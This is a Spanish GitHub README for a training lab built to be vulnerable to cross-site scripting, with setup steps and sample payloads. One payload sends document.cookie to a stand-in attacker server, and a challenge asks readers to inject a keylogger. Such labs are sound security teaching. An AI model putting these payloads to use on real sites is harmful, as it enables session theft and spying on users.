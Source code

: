 <h1 style="color: green;"><a href="https://xsslabinteractive.pythonanywhere.com/"  style="text-decoration: none; color: inherit;">🛡️ XSS Lab Interactive</a></h1>

*Plataforma colaborativa para aprender y practicar vulnerabilidades XSS de forma segura y controlada*

![GitHub license](https://img.shields.io/github/license/infernoidpl4y/XSSLab)  
![Python](https://img.shields.io/badge/Python-3.x-blue)  
![Flask](https://img.shields.io/badge/Flask-2.x-orange)  
![OWASP](https://img.shields.io/badge/OWASP-Top_10-red)  

---

## 🎯 ¿Qué es XSS Lab?
Un entorno de aprendizaje práctico para estudiantes y profesionales de ciberseguridad, diseñado para **entender y practicar la explotación de vulnerabilidades XSS (Cross-Site Scripting)** en un entorno seguro y controlado.

> "No es solo destruir... es entender cómo funciona la seguridad web"  
> - InfernoidPl4y

---

## 🔧 Características Principales
- ✅ **Vulnerable intencionalmente** para pruebas de seguridad  
- 📚 Entorno controlado para experimentación segura  
- 💬 Sistema de publicaciones con inyección XSS en campo de texto  
- 🎨 Ejemplo predefinido: `!inject` para payloads básicos  
- 📉 Datos reiniciados automáticamente cada 48 horas  
- 🌐 Desplegable en plataformas como PythonAnywhere  
- 🤝 Diseñado para aprendizaje comunitario

---

## 📦 Tecnologías Utilizadas
- 🐍 **Python** (Flask framework)
- 💻 **HTML/CSS** (Frontend interactivo)
- 🔐 Enfoque en OWASP Top 10 (XSS específicamente)

---

## 🚀 Instalación Local

### Requisitos:
- Python 3.x
- pip (Python Package Manager)

### Pasos:
```bash
# Clona el repositorio
git clone https://github.com/infernoidpl4y/XSSLab.git

# Accede al directorio
cd XSSLab

# Instala dependencias
pip install -r requirements.txt

# Ejecuta la aplicación
python app.py
```

---

## 🧪 Cómo Usarlo

1. Abre el navegador en `http://localhost:5000`
2. Crea una publicación con código XSS:
   ```html
   <script>alert('¡XSS básico!')</script>
   ```
3. **Ejemplo rápido:** Escribe `!inject` en el campo XSS para ver un payload predefinido
4. Observa el comportamiento y experimenta con diferentes payloads

---

## ⚠️ Aviso Importante
- **Solo para fines educativos**
- **No introduzcas información sensible**
- **Los datos se reinician periódicamente**

---

## 🧠 Ejemplos de Payloads para Pruebas

### Básico
```html
<script>alert('XSS')</script>
```

### Estilo Visual
```html
<style>
  body { background: red; transition: all 2s; }
</style>
```

### Redirección Silenciosa
```html
<script>window.location.href='https://example.com'</script>
```

### Captura de Cookies (Ejemplo académico)
```html
<script>
  fetch('https://tu-servidor.com/log?data='+document.cookie)
</script>
```

---

## 🧰 Desafíos Recomendados

### Nivel Principiante
- Crea una alerta que salte al cargar la página

### Nivel Intermedio
- Modifica el estilo de otra publicación

### Nivel Avanzado
- Inyecta un script que capture entradas del teclado

---

## 📸 Captura de Pantalla
![XSS Lab Demo](https://via.placeholder.com/800x500?text=XSS+Lab+Interactive+Demo)

---

## 🤝 Contribuciones
¡Las mejoras y contribuciones son bienvenidas!  
Por favor lee el [CONTRIBUTING.md](CONTRIBUTING.md) para más detalles.

---

## 📬 Contacto
InfernoidPl4y - infernoidpl4y@gmail.com  
Portfolio: [infernoidpl4y.netlify.app](https://infernoidpl4y.netlify.app)

